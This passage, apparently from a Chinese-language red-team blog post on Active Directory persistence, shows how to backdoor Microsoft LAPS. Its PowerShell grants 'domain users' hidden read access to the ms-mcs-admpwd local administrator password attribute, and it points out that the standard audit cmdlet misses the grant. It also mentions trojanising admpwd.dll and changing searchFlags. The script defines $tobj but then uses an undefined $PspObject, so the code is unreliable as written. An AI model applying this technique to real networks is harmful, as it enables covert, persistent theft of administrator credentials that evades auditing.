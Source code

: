 可以查看下面GIF的效果，在添加ACE到这个Class当中，但是`Find-AdmPwdExtendedRights` 却不能检测出来，开始win10没有加入到其中就不能获取到admpwd，但是在移动到这个class中过后就能读取到admpwd了：

[![](https://p3.ssl.qhimg.com/t013417885e1ed93ea5.gif)](https://p3.ssl.qhimg.com/t013417885e1ed93ea5.gif)

当然也可以针对组来对对应GUID设置ACE：

```
$tobj = $(get-domaincomputer -Raw win10).getdirectoryentry()
$guids = get-domainguidmap
#get admpwd guid
$admpwdguid = $guids.getenumerator()| ?`{`$_.value -eq 'ms-mcs-admpwd'`}`|select -expandproperty name

#ace
$ace =  New-ADObjectAccessControlEntry -AccessControlType allow -right extendedright -PrincipalIdentity "domain users" -objecttype $admpwdguid -InheritedobjectType ([guid]::empty) -InheritanceType all
$PspObject.psbase.objectsecurity.addaccessrule($ace)
$PspObject.psbase.commitchanges()
```

这样就可以domian users就可以访问admpwd了，而且也是不会显示出来：

[![](https://p1.ssl.qhimg.com/t0199d853fff81f8171.png)](https://p1.ssl.qhimg.com/t0199d853fff81f8171.png)

LAPS还有两种方法，修改`searchFlags`或者通过[admpwd.dll](https://github.com/GreyCorbel/admpwd)注入后门代码将修改后的密码保存下来，更多的详细可以参考[malicious-use-of-microsoft-laps](https://akijosberryblog.wordpress.com/2019/01/01/malicious-use-of-microsoft-laps/)。



## 0x05 总结

​ 这篇文章是对上一篇的部分补充，介绍了针对域内不同类型的权限维持的方法，我这里并没有把这些方法所产生的日志贴出来了，毕竟一些重视安全的公司，日志审查还是很厉害的，各位可以自己测试下，谨慎选择。可能还有后续，但都是一些详细补充了。

